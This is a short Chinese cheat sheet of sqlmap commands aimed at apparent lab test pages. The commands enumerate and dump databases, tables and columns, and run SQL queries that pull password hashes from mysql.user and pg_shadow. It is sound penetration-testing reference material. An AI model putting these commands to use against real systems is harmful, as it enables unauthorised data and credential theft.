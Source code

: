 列数据库

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dbs -v 0
```

列出指定数据库指定表的列名

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --columns -T users -D test -v 1
```

列出指定数据库的指定表的指定列的内容

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump -T users -D master -C surname -v 0
```

指定列的范围从2－4

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0
```

导出所有数据库，所有表的内容

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump-all -v 0
```

只列出用户自己新建的数据库和表的内容

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0
```

sql query

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1
```

```
SELECT usename, passwd FROM pg_shadow ORDER BY usename
```

保存和恢复会话

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"
```

保存选项到INC配置文件

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
```